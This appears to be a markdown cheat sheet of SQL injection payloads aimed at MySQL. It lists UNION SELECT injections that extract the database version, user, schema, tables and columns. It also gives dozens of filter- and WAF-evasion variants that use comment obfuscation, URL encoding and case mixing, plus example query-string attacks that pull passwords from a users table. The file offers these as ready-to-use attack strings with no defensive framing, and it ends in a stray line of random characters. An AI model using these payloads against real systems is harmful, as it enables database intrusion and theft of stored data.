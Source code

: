 # Sql-Injection


/**//*U*//*n*//*I*//*o*//*N*//*S*//*e*//*L*//*e*//*c*//*T*/
9999' or 1=9 union select null, version() #
9999' or 1=9 union select null, user() #
9999' or 1=9 union select null, database() #
9999' or 1=9 union select null, concat(table_name,0x0a,column_name)
from information_schema.columns where table_name='users' #
SELECT * from table where id = 1 union select 1,2,3
/*!50000%55nIoN*/ /*!50000%53eLeCt*/
%55nion(%53elect 1,2,3) — -
+union+distinctROW+select+
/**//*!12345UNION SELECT*//**/
/**//*!50000UNION SELECT*//**/
/**/UNION/**//*!50000SELECT*//**/
/*!50000UniON SeLeCt*/
union /*!50000%53elect*/
+#uNiOn+#sEleCt
+#1q%0AuNiOn all#qa%0A#%0AsEleCt
/*!%55NiOn*/ /*!%53eLEct*/
/*!u%6eion*/ /*!se%6cect*/
+un/**/ion+se/**/lect
uni%0bon+se%0blect
%2f**%2funion%2f**%2fselect
union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A
REVERSE(noinu)+REVERSE(tceles)
/* — */union/* — */select/* — */
union (/*!/**/ SeleCT */ 1,2,3)
/*!union*/+/*!select*/
union+/*!select*/
/**/union/**/select/**/
+%2F**/+Union/*!select*/
/**//*!union*//**//*!select*//**/
/*!uNIOn*/ /*!SelECt*/
+union+distinct+select+
+union+distinctROW+select+
uNiOn aLl sElEcT
UNIunionON+SELselectECT
/**/union/*!50000select*//**/
0%a0union%a0select%09
%0Aunion%0Aselect%0A
%55nion/**/%53elect
uni<on all=”” sel=””>/*!20000%0d%0aunion*/+/*!20000%0d%0aSelEct*/
%252f%252a*/UNION%252f%252a /SELECT%252f%252a*/
%0A%09UNION%0CSELECT%10NULL%
/*!union*//* — *//*!all*//* — *//*!select*/
union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A1% 2C2%2C
/*!20000%0d%0aunion*/+/*!20000%0d%0aSelEct*/
+UnIoN/*&a=*/SeLeCT/*&a=*/
union+sel%0bect
+uni*on+sel*ect+
+#1q%0Aunion all#qa%0A#%0Aselect
union(select (1),(2),(3),(4),(5))
UNION(SELECT(column)FROM(table))
%23xyz%0AUnIOn%23xyz%0ASeLecT+
%23xyz%0A%55nIOn%23xyz%0A%53eLecT+
union(select(1),2,3)
union (select 1111,2222,3333)
uNioN (/*!/**/ SeleCT */ 11)
union (select 1111,2222,3333)
+#1q%0AuNiOn all#qa%0A#%0AsEleCt
/**//*U*//*n*//*I*//*o*//*N*//*S*//*e*//*L*//*e*//*c*//*T*/
%0A/**//*!50000%55nIOn*//*yoyu*/all/**/%0A/*!%53eLEct*/%0A/*nnaa*/
+%23sexsexsex%0AUnIOn%23sexsexs ex%0ASeLecT+
+union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A1% 2C2%2C
/*!f****U%0d%0aunion*/+/*!f****U%0d%0aSelEct*/
+%23blobblobblob%0aUnIOn%23blobblobblob%0aSeLe cT+
/*!blobblobblob%0d%0aunion*/+/*!blobblobblob%0d%0aSelEct*/
/union\sselect/g
/union\s+select/i
/*!UnIoN*/SeLeCT
+UnIoN/*&a=*/SeLeCT/*&a=*/
+uni>on+sel>ect+
+(UnIoN)+(SelECT)+
+(UnI)(oN)+(SeL)(EcT)
+’UnI”On’+’SeL”ECT’
+uni on+sel ect+
+/*!UnIoN*/+/*!SeLeCt*/+
/*!u%6eion*/ /*!se%6cect*/
uni%20union%20/*!select*/%20
union%23aa%0Aselect
/**/union/*!50000select*/
/*union*/union/*select*/select+
/*uni X on*/union/*sel X ect*/
+un/**/ion+sel/**/ect+
+UnIOn%0d%0aSeleCt%0d%0a
UNION/*&test=1*/SELECT/*&pwn=2*/
un?<ion sel=””>+un/**/ion+se/**/lect+
+UNunionION+SEselectLECT+
+uni%0bon+se%0blect+
%252f%252a*/union%252f%252a /select%252f%252a*/
/%2A%2A/union/%2A%2A/select/%2A%2A/
%2f**%2funion%2f**%2fselect%2f**%2f
union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A
*!UnIoN*/SeLecT+
information_schema.tables
/*!froM*/ /*!InfORmaTion_scHema*/.tAblES /*!WhERe*/ /*!TaBle_ScHEmA*/=schEMA() — -
/*!froM*/ /*!InfORmaTion_scHema*/.tAblES /*!WhERe*/ /*!TaBle_ScHEmA*/ like schEMA() — -
/*!froM*/ /*!InfORmaTion_scHema*/.tAblES /*!WhERe*/ /*!TaBle_ScHEmA*/=database() — -
/*!froM*/ /*!InfORmaTion_scHema*/.tAblES /*!WhERe*/ /*!TaBle_ScHEmA*/ like database() — -
/*!FrOm*/+%69nformation_schema./**/columns+/*!50000Where*/+/*!%54able_name*/=hex table
/*!FrOm*/+information_schema./**/columns+/*!12345Where*/+/*!%54able_name*/ like hex table

concat()
CoNcAt()
concat()
CON%08CAT()
CoNcAt()
%0AcOnCat()
/**//*!12345cOnCat*/
/*!50000cOnCat*/(/*!*/)
unhex(hex(concat(table_name)))
unhex(hex(/*!12345concat*/(table_name)))
unhex(hex(/*!50000concat*/(table_name)))

group_concat()
/*!group_concat*/()
gRoUp_cOnCAt()
group_concat(/*!*/)
group_concat(/*!12345table_name*/)
group_concat(/*!50000table_name*/)
/*!group_concat*/(/*!12345table_name*/)
/*!group_concat*/(/*!50000table_name*/)
/*!12345group_concat*/(/*!12345table_name*/)
/*!50000group_concat*/(/*!50000table_name*/)
/*!GrOuP_ConCaT*/()/*!12345GroUP_ConCat*/()
/*!50000gRouP_cOnCaT*/()
/*!50000Gr%6fuP_c%6fnCAT*/()
unhex(hex(group_concat(table_name)))
unhex(hex(/*!group_concat*/(/*!table_name*/)))
unhex(hex(/*!12345group_concat*/(table_name)))
unhex(hex(/*!12345group_concat*/(/*!table_name*/)))
unhex(hex(/*!12345group_concat*/(/*!12345table_name*/)))
unhex(hex(/*!50000group_concat*/(table_name)))
unhex(hex(/*!50000group_concat*/(/*!table_name*/)))
unhex(hex(/*!50000group_concat*/(/*!50000table_name*/)))
convert(group_concat(table_name)+using+ascii)
convert(group_concat(/*!table_name*/)+using+ascii)
convert(group_concat(/*!12345table_name*/)+using+ascii)
convert(group_concat(/*!50000table_name*/)+using+ascii)
CONVERT(group_concat(table_name)+USING+latin1)
CONVERT(group_concat(table_name)+USING+latin2)
CONVERT(group_concat(table_name)+USING+latin3)
CONVERT(group_concat(table_name)+USING+latin4)

CONVERT(group_concat(table_name)+USING+latin5)


Bypass- 
 /?id=1+union+select+1,2,3/*
/?id=1/*union*/union/*select*/select+1,2,3/*
 index.php?id=1/*uni X on*/union/*sel X ect*/select+1,2,3/*
 /?id=1+union+select+1,2,3/*
 /?id=1+un/**/ion+sel/**/ect+1,2,3--
 SQL=" select key from table where id= "+Request.QueryString("id")
 /?id=1/**/union/*&id=*/select/*&id=*/pwd/*&id=*/from/*&id=*/users
+UNunionION+SEselectLECT+1,2,3--
+uni%0bon+se%0blect+1,2,3--

%55nion(%53elect) union%20distinct%20select union%20%64istinctRO%57%20select union%2053elect %23?%0auion%20?%23?%0aselect %23?zen?%0Aunion all%23zen%0A%23Zen%0Aselect %55nion %53eLEct u%6eion se%6cect unio%6e %73elect unio%6e%20%64istinc%74%20%73elect uni%6fn distinct%52OW s%65lect %75%6e%6f%69%6e %61%6c%6c %73%65%6c%65%63%7

/**/ORDER/**/BY/**/
/*!order*/+/*!by*/
/*!ORDER BY*/
/*!50000ORDER BY*/
/*!50000ORDER*//**//*!50000BY*/
/*!12345ORDER*/+/*!BY*//**/ORDER/**/BY/**/


7)44rxkTT58i5744y=y'TL,x3FiHmp42
